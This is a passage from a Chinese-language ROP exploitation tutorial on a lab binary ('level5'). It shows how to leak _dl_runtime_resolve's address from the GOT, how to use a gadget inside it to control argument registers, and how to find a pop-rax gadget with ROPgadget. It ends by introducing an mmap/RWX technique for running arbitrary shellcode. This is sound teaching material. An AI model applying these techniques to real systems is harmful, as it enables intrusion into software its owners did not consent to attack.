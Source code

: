 从`0x7ffff7def235`开始，就是这个通用gadget的地址了。通过这个gadget我们可以控制rdi，rsi，rdx，rcx， r8，r9的值。但要注意的是`_dl_runtime_resolve()`在内存中的地址是随机的。所以我们需要先用information leak得到`_dl_runtime_resolve()`在内存中的地址。那么`_dl_runtime_resolve()`的地址被保存在了哪个固定的地址呢？

通过反编译level5程序我们可以看到`write@plt()`这个函数使用PLT [0] 去查找write函数在内存中的地址，函数jump过去的地址*0x600ff8其实就是`_dl_runtime_resolve()`在内存中的地址了。所以只要获取到0x600ff8这个地址保存的数据，就能够找到`_dl_runtime_resolve()`在内存中的地址：

```
0000000000400420 <write@plt-0x10>:
  400420:   ff 35 ca 0b 20 00       pushq  0x200bca(%rip)        # 600ff0 <_GLOBAL_OFFSET_TABLE_+0x8>
  400426:   ff 25 cc 0b 20 00       jmpq   *0x200bcc(%rip)        # 600ff8 <_GLOBAL_OFFSET_TABLE_+0x10>
  40042c:   0f 1f 40 00             nopl   0x0(%rax)

gdb-peda$ x/x 0x600ff8
0x600ff8 <_GLOBAL_OFFSET_TABLE_+16>:    0x00007ffff7def200

gdb-peda$ x/21i 0x00007ffff7def200
   0x7ffff7def200 <_dl_runtime_resolve>:    sub    rsp,0x38
   0x7ffff7def204 <_dl_runtime_resolve+4>:  mov    QWORD PTR [rsp],rax
   0x7ffff7def208 <_dl_runtime_resolve+8>:  mov    QWORD PTR [rsp+0x8],rcx
   0x7ffff7def20d <_dl_runtime_resolve+13>: mov    QWORD PTR 
[rsp+0x10],rdx
….
```

另一个要注意的是，想要利用这个gadget，我们还需要控制rax的值，因为gadget是通过rax跳转的：

```
0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
……
0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11
```

所以我们接下来用ROPgadget查找一下libc.so中控制rax的gadget：

```
ROPgadget --binary libc.so.6 --only "pop|ret" | grep "rax"
0x000000000001f076 : pop rax ; pop rbx ; pop rbp ; ret
0x0000000000023950 : pop rax ; ret
0x000000000019176e : pop rax ; ret 0xffed
0x0000000000123504 : pop rax ; ret 0xfff0
```

`0x0000000000023950`刚好符合我们的要求。有了`pop rax`和`_dl_runtime_resolve`这两个gadgets，我们就可以很轻松的调用想要的调用的函数了。

# 0x02 利用mmap执行任意shellcode

------

看了这么多rop后是不是感觉我们利用rop只是用来执行system有点太不过瘾了？另外网上和msf里有那么多的shellcode难道在默认开启DEP的今天已经没有用处了吗？并不是的，我们可以通过mmap或者mprotect将某块内存改成RWX(可读可写可执行)，然后将shellcode保存到这块内存，然后控制pc跳转过去就可以执行任意的shellcode了，比如说建立一个socket连接等。下面我们就结合上一节中提到的通用gadgets来让程序执行一段shellcode。
